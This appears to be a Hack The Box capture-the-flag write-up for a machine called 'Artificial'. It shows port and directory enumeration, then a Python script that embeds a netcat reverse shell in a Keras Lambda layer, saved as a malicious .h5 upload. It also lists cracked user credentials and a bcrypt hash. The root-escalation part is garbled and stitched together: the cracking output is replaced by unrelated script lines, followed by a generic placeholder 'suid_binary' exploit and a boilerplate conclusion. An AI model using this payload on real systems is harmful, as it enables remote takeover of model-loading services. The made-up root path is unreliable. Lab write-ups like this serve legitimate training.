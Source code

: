 ```yaml
---
name: Artificial
difficulty: easy
os: linux
platform: htb
date: 2025/07/01
releasedDate: 2025-07-01
userFlag: true
rootFlag: false

img: https://labs.hackthebox.com/storage/avatars/e6633d6c2b1d824c3756eb21aeed7590.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.74 -o content/allPortsFiltered
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
We can see that ports 22 (SSH) and 80 (HTTP) are open.

When accessing `http://10.10.11.74` it redirects to `http://artificial.htb`, which is a custom domain. We need to add this domain to our `/etc/hosts` file:
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

Now we can access the web server using the custom domain `http://artificial.htb`.

We create an account in the web application, which is a simple login page. After creating an account, we can log in with the credentials we set.

For the directory enumeration, we can use tools like `gobuster` or `dirb` to find hidden directories and files.
```bash
gobuster dir -u http://artificial.htb -w /usr/share/wordlists/dirb/common.txt
```
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 857]
/logout               (Status: 302) [Size: 189] [--> /]
```
There are no interesting hidden directories. All of them are related to the web app functionality.


## User Exploitation

After registering and logging in, we can access the `/dashboard` page. The dashboard contains a form to upload `.h5` files.

We can generate a malicious `.h5` file that contains a payload to execute arbitrary code. We will use this github repository, `https://github.com/Splinter0/tensorflow-rce` to create the file.

We add use the docker image provided in the repository to generate the `.h5` file:
```bash
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

We upload the generated `.h5` file to the web application. The application processes the file and executes the payload, which opens a reverse shell to our machine. 

We can read the database and find all users and their hashed passwords. The database is stored in a file called `instance/users.db`.
``` 
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
```

We use `https://crackstation.net/` to crack the password hashes. After cracking, we find the following credentials
```bash
gael:mattp005numbertwo
royer:marwinnarak043414036
```

We use gael's credentials to log in though SSH:
```bash
ssh gael@artificial.htb
```

Then, we can read the user flag:
```bash
cat /home/gael/user.txt
```
```
user flag value
```

## Root Privilege Escalation

We do id to check the privileges of the user `gael`:
```bash
id
```
```
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

We look for files/directories with sysadm ownership:
```bash 
ls -la / | grep sysadm
```
```
265127-/var/backups:
265128-total 51220
265129--rw-r--r-- 1 root root      38602 Jun  9 10:48 apt.extended_states.0
265130--rw-r--r-- 1 root root       4253 Jun  9 09:02 apt.extended_states.1.gz
265131--rw-r--r-- 1 root root       4206 Jun  2 07:42 apt.extended_states.2.gz
265132--rw-r--r-- 1 root root       4190 May 27 13:07 apt.extended_states.3.gz
265133--rw-r--r-- 1 root root       4383 Oct 27  2024 apt.extended_states.4.gz
265134--rw-r--r-- 1 root root       4379 Oct 19  2024 apt.extended_states.5.gz
265135--rw-r--r-- 1 root root       4367 Oct 14  2024 apt.extended_states.6.gz
265136:-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 backrest_backup.tar.gz
```
We find a file called `backrest_backup.tar.gz` owned by `root:sysadm`. It looks like a compressed backup file. We can extract it to see its contents:
```bash
tar -xvf backrest_backup.tar.gz
```
```
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

In `backrest/.config/backrest/config.json` we find the following content:
```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

Bcrypt is an algorithm used for hashing passwords. The password for the user `backrest_root` is hashed using bcrypt. We can use a tool like `hashcat` or `john the ripper` to crack the password.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt bcrypt.hash
```
```
Using default input encoding: UTF-8




  38   │ [Service]
  39   │ Type=simple
  40   │ User=$(whoami)
  41   │ Group=$(whoami)
  42   │ ExecStart=/usr/local/bin/backrest
  43   │ Environment="BACKREST_PORT=127.0.0.1:9898"
  44   │ Environment="BACKREST_CONFIG=/opt/backrest/.config/backrest/config.json"
  45   │ Environment="BACKREST_DATA=/opt/backrest"
  46   │ Environment="BACKREST_RESTIC_COMMAND=/opt/backrest/restic"

 110   │ echo "Logs are available at ~/.local/share/backrest/processlogs/backrest.log"

 .config/backrest/config.json:10:        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```






### Results

```
/usr/bin/suid_binary
```

### Exploiting the SUID Binary

We can exploit the SUID binary to gain root access. Assuming the binary is vulnerable, we can run it with root privileges:

```bash
/usr/bin/suid_binary
```

### Root Flag

After successfully exploiting the SUID binary, we can find the root flag:

```bash
cat /root/root.txt
```

## Conclusion

Congratulations! You have successfully completed the walkthrough for the example machine. You have learned how to enumerate services, exploit vulnerabilities, and retrieve both user and root flags.
